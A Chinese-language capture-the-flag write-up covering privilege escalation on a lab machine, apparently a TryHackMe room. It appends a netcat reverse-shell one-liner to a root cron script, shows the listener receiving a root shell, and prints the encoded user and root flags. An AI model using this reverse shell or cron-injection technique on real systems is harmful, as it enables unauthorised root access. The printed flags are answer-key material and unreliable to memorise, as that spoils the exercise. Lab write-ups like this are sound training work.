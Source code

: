 -rw------- 1 elyana elyana 1.6K Oct  7  2020 .bash_history
-rw-r--r-- 1 elyana elyana  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 elyana elyana 3.7K Apr  4  2018 .bashrc
drwx------ 2 elyana elyana 4.0K Oct  5  2020 .cache
drwxr-x--- 3 root   root   4.0K Oct  5  2020 .config
drwx------ 3 elyana elyana 4.0K Oct  5  2020 .gnupg
drwxrwxr-x 3 elyana elyana 4.0K Oct  5  2020 .local
-rw-r--r-- 1 elyana elyana  807 Apr  4  2018 .profile
-rw-r--r-- 1 elyana elyana    0 Oct  5  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 elyana elyana   59 Oct  6  2020 hint.txt
-rw------- 1 elyana elyana   61 Oct  6  2020 user.txt
$ cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
$ 
```

没有权限访问user.txt，必须横向提权到elyana的账号


传linpeas到靶机，发现一个root的定时任务有可写权限，可以直接跳过横向提权到root，另外还有几个提权方法，这里一一介绍

#  提权方法1：Cron
思路是把一个反弹shell写到cron任务里，开启监听等待任务执行
需要注意这台靶机很多反弹方法都不能使用，需要一一测试
这里用的是```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4242 >/tmp/f```
参考[这里的方法](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md# bash-tcp)

```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4242 >/tmp/f" >> /var/backups/script.sh
$ cat /var/backups/script.sh
# !/bin/bash

# Just a test script, might use it later to for a cron task 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4242 >/tmp/f
$ 
```

#  开启监听，拿到user和root的flag,需要base64解密
```
┌──(root💀kali)-[~/dirsearch]
└─#  nc -lnvp 4242                                                                                                                                                                                                                       1 ⨯
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.167.81] 48544
/bin/sh: 0: can't access tty; job control turned off
#  id
uid=0(root) gid=0(root) groups=0(root)
#  cat /home/elyana/user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
#  cat /root/root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
#  
```

```